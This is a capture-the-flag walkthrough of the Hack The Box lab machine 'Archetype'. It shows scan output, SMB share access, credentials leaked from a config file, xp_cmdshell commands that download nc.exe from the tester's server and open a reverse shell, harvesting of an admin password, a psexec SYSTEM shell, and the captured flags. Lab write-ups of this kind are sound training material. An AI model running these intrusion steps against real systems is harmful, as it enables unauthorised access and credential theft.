

# [Archetype](https://app.hackthebox.eu/machines/287)
<p align="center">
  
</p>
<!--  -->

## Walkthrough

- [`nmap -sC -sV 10.10.10.27`](netcat.txt)
```
# Nmap 7.92 scan initiated Tue Aug 10 21:54:52 2021 as: nmap -sC -sV -oN nmap.txt 10.10.10.27
Nmap scan report for 10.10.10.27
Host is up (0.53s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-08-10T16:29:50
|_Not valid after:  2051-08-10T16:29:50
|_ssl-date: 2021-08-10T16:44:54+00:00; +18m59s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h42m59s, deviation: 3h07m51s, median: 18m58s
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-10T09:44:38-07:00
| smb2-time: 
|   date: 2021-08-10T16:44:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 10 21:55:55 2021 -- 1 IP address (1 host up) scanned in 63.06 seconds
```
- [`smbclient -N -L \\\\10.10.10.27\\`](smbclient.txt)
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
- [`smbclient -N \\\\10.10.10.27\\backups`](./smbclient2.txt)
```
Try "help" to get a list of possible commands.
[?2004hsmb: \> help
[?2004l
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
[?2004hsmb: \> ls
[?2004l
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

		10328063 blocks of size 4096. 8259462 blocks available
[?2004hsmb: \> get prod.dtsConfig
[?2004l
[?2004hsmb: \> ^C[?2004l
```
- [`vim prod.dtcConfig`](prod.dtsConfig)
>
    <DTSConfiguration>
        <DTSConfigurationHeading>
            <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
        </DTSConfigurationHeading>
        <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
            <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
        </Configuration>
    </DTSConfiguration>
>
- From **prdo.dtConfig** we get `Password = M3g4c0rp123 & User ID = ARCHETYPE\sql_svc`
- [`sudo python3 -m http.server port`](webservice.txt)
```
10.10.10.27 - - [10/Aug/2021 22:19:25] "GET /nc.exe HTTP/1.1" 200 -
```
- `python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -window-auth`
    - This will send the nc.exe file to the machine ` xp_cmdshell powershell wget http://your_ip:port/nc.exe -OutFile %TEMP%\nc.exe`
        -   Open the backdoor connection in your machine by `nc -lvmp port`
    - This will execute the nc.exe and create a backdoor ` xp_cmdshell powershell %TEMP%\nc.exe -nv your_ip port -e cmd.exe`
    - [`Impacket Output (USER)`](impacket_user.txt)
```
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> output                                                                             

--------------------------------------------------------------------------------   

wget : The process cannot access the file 'C:\Users\sql_svc\AppData\Local\Temp\nc.exe' because it is being used by    

another process.                                                                   

At line:1 char:1                                                                   

+ wget http://10.10.16.21:8080/nc.exe -OutFile C:\Users\sql_svc\AppData ...        

+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~            

    + CategoryInfo          : NotSpecified: (:) [Invoke-WebRequest], IOException   

    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand  
NULL                                                                               
SQL> 
```
- [`Backdoor(from own machine) For USER OWN` from listening in `nc -lvmp` port in earlier step](netcat.txt)
```
Connection from 10.10.10.27:49739
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..

C:\Windows>cd ..

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\

01/20/2020  05:20 AM    <DIR>          backups
09/15/2018  12:12 AM    <DIR>          PerfLogs
01/19/2020  04:09 PM    <DIR>          Program Files
01/19/2020  04:08 PM    <DIR>          Program Files (x86)
01/19/2020  11:39 PM    <DIR>          Users
08/10/2021  10:07 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  33,824,833,536 bytes free

C:\>cd Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users

01/19/2020  04:10 PM    <DIR>          .
01/19/2020  04:10 PM    <DIR>          ..
01/19/2020  11:39 PM    <DIR>          Administrator
01/19/2020  11:39 PM    <DIR>          Public
01/20/2020  06:01 AM    <DIR>          sql_svc
               0 File(s)              0 bytes
               5 Dir(s)  33,824,833,536 bytes free

C:\Users>cd Administratior
The system cannot find the path specified.

C:\Users>cd sql_svc

C:\Users\sql_svc>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\sql_svc

01/20/2020  06:01 AM    <DIR>          .
01/20/2020  06:01 AM    <DIR>          ..
01/20/2020  06:01 AM    <DIR>          3D Objects
01/20/2020  06:01 AM    <DIR>          Contacts
01/20/2020  06:42 AM    <DIR>          Desktop
01/20/2020  06:01 AM    <DIR>          Documents
01/20/2020  06:01 AM    <DIR>          Downloads
01/20/2020  06:01 AM    <DIR>          Favorites
01/20/2020  06:01 AM    <DIR>          Links
01/20/2020  06:01 AM    <DIR>          Music
01/20/2020  06:01 AM    <DIR>          Pictures
01/20/2020  06:01 AM    <DIR>          Saved Games
01/20/2020  06:01 AM    <DIR>          Searches
01/20/2020  06:01 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  33,824,813,056 bytes free

C:\Users\sql_svc>cd Desktop

C:\Users\sql_svc\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,824,813,056 bytes free

C:\Users\sql_svc\Desktop>type user.txt
3e7b102e78218e935bf3f4951fec21a3
C:\Users\sql_svc\Desktop>cd ../../..

C:\>dir/s *history.txt
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

03/17/2020  02:36 AM                79 ConsoleHost_history.txt
               1 File(s)             79 bytes

     Total Files Listed:
               1 File(s)             79 bytes
               0 Dir(s)  33,824,755,712 bytes free

C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

01/20/2020  06:04 AM    <DIR>          .
01/20/2020  06:04 AM    <DIR>          ..
03/17/2020  02:36 AM                79 ConsoleHost_history.txt
               1 File(s)             79 bytes
               2 Dir(s)  33,824,755,712 bytes free

C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
- Here we get the FLAG for USER OWN - `3e7b102e78218e935bf3f4951fec21a3`
- Here we get the `User:administrator & Password:MEGACORP_4dm1n!!` for Admin machine
- `python3 impacket/examples/psexec.py administrator@10.10.10.27` PASSWORD = ``MEGACORP_4dm1n!!``
- [`Backdoor(from own machine) For SYSTEM OWN`](impacket_system.txt)
```
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file YVzjntpg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service xNPL on 10.10.10.27.....
[*] Starting service xNPL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\> Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\

01/20/2020  05:20 AM    <DIR>          backups
09/15/2018  12:12 AM    <DIR>          PerfLogs
01/19/2020  04:09 PM    <DIR>          Program Files
01/19/2020  04:08 PM    <DIR>          Program Files (x86)
08/10/2021  10:18 AM                 0 type
01/19/2020  11:39 PM    <DIR>          Users
08/10/2021  10:27 AM    <DIR>          Windows
               1 File(s)              0 bytes
               6 Dir(s)  33,819,934,720 bytes free

C:\>
C:\Users> Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users

01/19/2020  04:10 PM    <DIR>          .
01/19/2020  04:10 PM    <DIR>          ..
01/19/2020  11:39 PM    <DIR>          Administrator
01/19/2020  11:39 PM    <DIR>          Public
01/20/2020  06:01 AM    <DIR>          sql_svc
               0 File(s)              0 bytes
               5 Dir(s)  33,819,934,720 bytes free

C:\Users>
C:\Users\Administrator> Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\Administrator

01/19/2020  11:39 PM    <DIR>          .
01/19/2020  11:39 PM    <DIR>          ..
01/19/2020  11:39 PM    <DIR>          3D Objects
01/19/2020  11:39 PM    <DIR>          Contacts
01/20/2020  06:42 AM    <DIR>          Desktop
01/19/2020  11:39 PM    <DIR>          Documents
01/19/2020  11:39 PM    <DIR>          Downloads
01/19/2020  11:39 PM    <DIR>          Favorites
01/19/2020  11:39 PM    <DIR>          Links
01/19/2020  11:39 PM    <DIR>          Music
01/19/2020  11:39 PM    <DIR>          Pictures
01/19/2020  11:39 PM    <DIR>          Saved Games
01/19/2020  11:39 PM    <DIR>          Searches
01/19/2020  11:39 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  33,819,832,320 bytes free

C:\Users\Administrator>
C:\Users\Administrator\Desktop> Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\Administrator\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,819,807,744 bytes free

C:\Users\Administrator\Desktop>b91ccec3305e98240082d4474b848528
C:\Users\Administrator\Desktop>
```
- The FLAG for SYSTEM OWN - `b91ccec3305e98240082d4474b848528`
